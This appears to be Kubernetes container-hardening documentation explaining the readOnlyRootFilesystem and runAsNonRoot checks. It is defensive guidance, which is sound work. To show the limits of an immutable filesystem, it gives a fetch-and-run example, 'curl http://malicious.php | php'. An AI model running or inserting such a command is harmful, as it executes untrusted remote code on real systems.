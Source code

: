 ## containers[].securityContext.readOnlyRootFilesystem == true

An immutable root filesystem can prevent malicious binaries being added to PATH and increase attack cost

An immutable root filesystem prevents applications from writing to their local disk. This is desirable in the event of an intrusion as the attacker will not be able to tamper with the filesystem or write foreign executables to disk.

However if there are runtimes available in the container then this is not sufficient to prevent code execution. Consider curl http://malicious.php | php or bash -c "echo 'much pasted code'".

### Notes

- Immutable filesystems will prevent your application writing to disk. There may be a requirement for temporary files or local caching, in which case an emptyDir volume can be mounted with type Memory
- Any volume mounted into the container will have its own filesystem permissions
- Scratch containers are an ideal candidate for immutableRootFilesystem - they contain only your code, minimal dev, etc, proc, and sys, and so need a runtime (or injection into the scratch binary) to execute code. Without a writable filesystem the attack surface is dramatically reduced.

### External Links

- [Kubernetes Docs: Volumes](https://kubernetes.io/docs/concepts/storage/volumes/#emptydir)

## containers[].securityContext.runAsNonRoot == true

Also containers[].securityContext.runAsUser > 10000

- Force the running image to run as a non-root user to ensure least privilege
- Indicates that containers should run as non-root user.

### Notes

- Container level security context settings are applied to the specific container and override settings made at the pod level where there is overlap
- Container level settings are not applied to the pod’s volumes.

To configure run as user:

- MustRunAs - Requires a range to be configured. Uses the first value of the range as the default. Validates against the configured range.
- MustRunAsNonRoot - Requires that the pod be submitted with a non-zero runAsUser or have the USER directive defined in the image. No default provided.
- RunAsAny - No default provided. Allows any runAsUser to be specified.

### External Links

- [Kubernetes Docs: Pod Security Policy](https://kubernetes.io/docs/concepts/policy/pod-security-policy/#runasuser)

## securityContext capabilities

